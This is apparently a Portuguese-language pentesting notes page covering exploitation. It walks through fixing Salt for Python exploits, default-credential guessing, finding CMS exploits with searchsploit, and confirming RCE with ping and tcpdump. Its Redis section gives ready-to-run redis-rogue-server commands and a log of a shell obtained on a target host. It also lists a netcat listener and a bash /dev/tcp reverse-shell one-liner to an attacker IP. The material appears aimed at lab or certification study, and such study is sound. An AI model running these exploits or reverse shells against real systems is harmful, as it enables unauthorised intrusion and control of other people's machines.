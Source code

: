 ## Exploitation

### Python Compatibility Issues in Exploits

Alguns exploits requerem bibliotecas específicas que podem ter problemas de compatibilidade com versões mais recentes do Python. No caso de exploits que utilizam a biblioteca **Salt**, por exemplo, ajustes podem ser necessários para garantir que tudo funcione corretamente.

#### Exemplo de Solução

```
# Criar um ambiente virtual para isolar a versão do Python
python3 -m venv env
. ./env/bin/activate

# Instalar dependências necessárias para o exploit
pip install distro salt

# Corrigir incompatibilidades na biblioteca Salt com Python 3.8+
sed -i 's/from platform import _supported_dists//' ./env/lib/python3.8/site-packages/salt/grains/core.py
sed -i 's/_supported_dists +=/_supported_dists =/' ./env/lib/python3.8/site-packages/salt/grains/core.py
```

Essas adaptações são para garantir a compatibilidade da biblioteca Salt com Python 3.8, o que permite que o exploit funcione corretamente no ambiente configurado.

### Default Credential Guessing

```bash
# Teste de credenciais padrão comuns (exemplo: admin:admin, root:root) para acessar painéis de administração e outros serviços.
# Essa etapa é fundamental pois muitos sistemas mantêm credenciais padrão, que representam uma vulnerabilidade crítica.
```

**Nota**: Tentar credenciais padrão é uma abordagem inicial essencial, pois muitos sistemas ainda utilizam configurações padrão, oferecendo acesso administrativo sem autenticação personalizada.


### Exploração de CMS (Content Management Systems)

Ao encontrar um CMS, é importante identificar a versão exata da aplicação, pois muitos CMS populares possuem vulnerabilidades publicamente conhecidas que podem ser exploradas. Seguem os passos recomendados:

1. **Identificar a Versão do CMS**: Busque a versão nas páginas de login, rodapé, ou nos arquivos de configuração acessíveis. Conhecer a versão é essencial para direcionar a pesquisa de exploits.

2. **Pesquisa de Exploits Públicos**: Utilize ferramentas como `searchsploit` para buscar exploits específicos para essa versão.
   ```bash
   # Atualiza o banco de dados do searchsploit
   searchsploit -u

   # Exemplo de busca e cópia de um exploit
   searshsploit Joomla 
   searchsploit -m <exploit_id>
   ```

3. **Verificar Necessidade de Autenticação**: Muitos exploits de CMS são autenticados, ou seja, requerem login para serem utilizados. Verifique se é necessário credenciais válidas antes de iniciar o exploit.

4. **Exploração Comum (RCE, File Upload Bypass, SQLi)**: CMS frequentemente possuem vulnerabilidades de execução remota de código (RCE), bypass no upload de arquivos, e injeção SQL (SQLi), que permitem controle sobre o sistema.

**Nota**: A exploração de CMS é uma etapa crítica em pentests, pois muitas vezes esses sistemas contêm dados sensíveis e controles administrativos. Use exploits com cautela, sempre verificando os requisitos e condições para a execução.

---

## Teste de RCE com Ping

### Passo 1: Executar o Exploit com Comando Ping
Execute o exploit com um comando `ping` apontando para o IP da sua máquina de ataque:

```
python3 exploit.py -c 'ping -c1 <IP_da_máquina_de_ataque>' -t <URL_do_alvo>
```

> Exemplo: `python3 exploit.py -c 'ping -c1 192.168.145.128' -t http://192.168.145.160/grav-admin`

### Passo 2: Capturar o Tráfego com tcpdump
Na máquina de ataque, use `tcpdump` para monitorar pacotes ICMP e verificar se o ping chega:

```
tcpdump -i <interface> icmp
```

> Exemplo: `tcpdump -i tun0 icmp`

### Resultado Esperado
Se o exploit funcionar, você verá pacotes `ICMP echo request` e `echo reply` no tcpdump, confirmando a execução do comando `ping` no alvo.


**Resumindo:**
1. **Exploit**: `python3 exploit.py -c 'ping -c1 <IP_atacante>' -t <URL_alvo>`
2. **Monitorar**: `tcpdump -i <interface> icmp`
3. **Confirmação**: Pacotes ICMP indicam sucesso do RCE.

---

### Redis RCE Exploitation

Explorando vulnerabilidades em Redis (versão <=5.0.5) para obter Execução Remota de Comando (RCE) utilizando o exploit **Redis Rogue Server**.

Passo 1: Executar o Exploit com redis-rogue-server

O comando abaixo configura o Redis Rogue Server para se conectar ao Redis alvo e obter RCE. Substitua `<rhost>`, `<rport>`, `<lhost>`, e `<lport>` conforme necessário:

https://github.com/n0b0dyCN/redis-rogue-server?source=post_page-----49920d4188de--------------------------------

```
./redis-rogue-server.py --rhost=<IP_do_Alvo> --rport=<Porta_do_Alvo> --lhost=<IP_de_Loopback> --lport=<Porta_de_Loopback>
```

Exemplo
```
./redis-rogue-server.py --rhost=192.168.245.176 --rport=6379 --lhost=192.168.45.168 --lport=4443
```

Para obter reverse shell

```
rlwrap nc -lnvp 4444
```

https://github.com/hanslub42/rlwrap

Ou, para outro repositório:

https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server
```
┌──(kali㉿kali)-[~/Awsome-Redis-Rogue-Server]
└─$ python3 redis_rogue_server.py -rhost 192.168.120.118 -lhost 192.168.118.23
[*] Init connection...
[+] Target accessible!
[*] Exploit Step-1.
[+] RDB dir: /tmp
[*] Done.
[+] Accept connection from 192.168.120.118:42480
[*] The Rogue Server Finished Sending the Fake Master Response.
[*] Wait for redis IO and trans flow close...
[*] Exploit Step-2.
[*] Done.
[+] It may crash target redis cause transfer large data, be careful.
[?] Shell? [i]interactive,[r]reverse:i
[!] DO NOT USING THIS TOOL DO ANYTHING EVIL!
[+] =========================== Shell ============================= 
$ whoami && hostname 
prudence
blackgate
$ 
```

Para obter reverse shell
```
$ bash -c 'bash -i >& /dev/tcp/192.168.118.23/4422 0>&1'
```


---
